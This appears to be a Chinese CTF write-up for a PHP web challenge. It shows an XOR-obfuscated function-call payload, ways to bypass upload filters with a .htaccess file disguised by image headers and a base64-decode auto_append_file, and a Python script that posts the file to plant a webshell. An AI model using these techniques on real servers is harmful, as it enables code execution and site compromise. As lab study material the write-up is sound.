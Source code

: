 可以构造poc

```php
_:['80^df']
G:['80^c7']
E:['80^c5']
T:['80^d4']
_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
//_=$_GET['%80']();&%80=phpinfo
```

同时通过 phpinfo() 可以得到很多信息

可以看到站点使用的中间件是 Apache2 ,因此对文件后缀的检查可以通过上传 `.htaccess` 来绕过.

可以看到站点使用的PHP版本是 PHP 7.2 , 所以 ` <script language='php'> ... </script> ` 这种写法已无法使用 . 要想绕过``<?``可以考虑base64等编码方式

这里我们调用get_the_flag就可以了

第二部分是利用get_the_flag上传一个完整的webshell

对后缀名进行了过滤，考虑上传.htaccess的方法

`exif_imagetype()` 对文件类型的检查可以通过添加图片的文件头( 例如 GIF98a )来绕过

需要注意的是.htaccess需要利用XMP的文件头防止因为之前出现无法识别的乱码无法解析

或者使用wbmp 格式的图片文件头

``\x00\x00\x8a\x39\x8a\x39``

然后卡了半天怎么上传file....

看了大佬的脚本，还是利用request

```python
import requests

url ="http://635d1ee9-d566-41ce-8e6b-037abd89affe.node3.buuoj.cn/"

payload="/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"

htaccess = b"""
#define width 1
#define height 1
AddType application/x-httpd-php .eki
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.eki"
"""

files = [('file',('.htaccess',htaccess,'image/jpeg'))]

data = {"upload":"Submit"}


r = requests.post(url=url+payload, data=data, files=files)
print(r.text) 
```
